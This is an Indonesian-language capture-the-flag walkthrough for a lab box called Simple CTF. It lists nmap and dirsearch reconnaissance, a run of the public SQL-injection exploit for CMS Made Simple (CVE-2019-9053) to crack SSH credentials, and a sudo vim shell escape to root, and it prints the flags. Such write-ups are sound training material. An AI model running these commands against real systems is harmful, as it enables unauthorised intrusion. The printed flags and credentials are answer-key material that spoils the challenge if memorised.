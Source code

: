 # langkah - langkah simple ctf
- pertama scan network menggunakan `sudo nmap ip-target`, dan kita bisa melihat ada 3 port yang terbuka 21 ftp,80 http,dan 2222 ssh
- lalu jalankan `dirsearch -u http://ip-target`, dan kita mendapat `http://ip-target/simple`, lalu coba kita akses url tersebut
- langkah selanjutnya kita mencari versi cve dari aplikasi tersebut, caranya hanya mencari versi dari cms tersebut dan search di google untuk mendapatkan versi cvenya 
- buat nyari cvenya, kita search aja di google `CMS Made Simple 2.2.8 exploit`
- abis di search, google bakal direkomendasiin ke url `https://www.exploit-db.com/exploits/46635`
- kita udah dapet cvenya `CVE-2019-9053`, untuk kerentanannya kita bisa liat dari judul script pyton di bawah `Exploit Title: Unauthenticated SQL Injection on CMS Made Simple <= 2.2.9` kalo script ini untuk kerentanan sql injeksi atau biasa di singkat `sqli`
- script pytonnya bisa kita download, atau di copas dengan format namafile.py, setelah itu kita jalanin scriptnya `python2 -u url-target/cms -c -w wordlist-yang-ingin-digunakan`, contohnya kaya gini `python 46635.py -u "http://10.10.26.215/simple/" -c -w /usr/share/wordlists/rockyou.txt`, -u: url, -c: cookie, -w: wordlist
- setelah menjalankan script python tadi, kita akan mendapatkan password `secret` dan username `mitch`
- lalu kita login ke ssh nya `ssh user@ip -p portnya`
- setelah berhasil login, jalankan `ls` dan kita menemukan `user.txt`, dan jika kita `cat user.txt` maka akan menampilkan `G00d j0b, keep up!`
- lalu jalankan `ls /home` untuk mengetahui apa ada user lain di direktori home, dan kita mendapatkan user `sunbath` di direktori home.
- lalu kita coba jalankan `sudo -l`, Kita dapat melihat pengguna "mitch" dapat menjalankan `/usr/bin/vim` tanpa password
- lalu kita pergi ke `https://gtfobins.github.io/gtfobins/vim/#sudo`, dan sepertinya kita bisa menjalankan perintah `sudo vim -c ':!/bin/sh'` untuk meningkatkan hak istimewa kita
- kita berhasil mendapatkan hak akses root, sekarang kita hanya perlu mencari flag root, kita hanya perlu menjalankan perintah `ls /root` dan mendapatkan `root.txt`, lalu tinggal jalankan perintah `cat /root/root.txt` dan kita berhasil mendapatkan flag root `W3ll d0n3. You made it!`
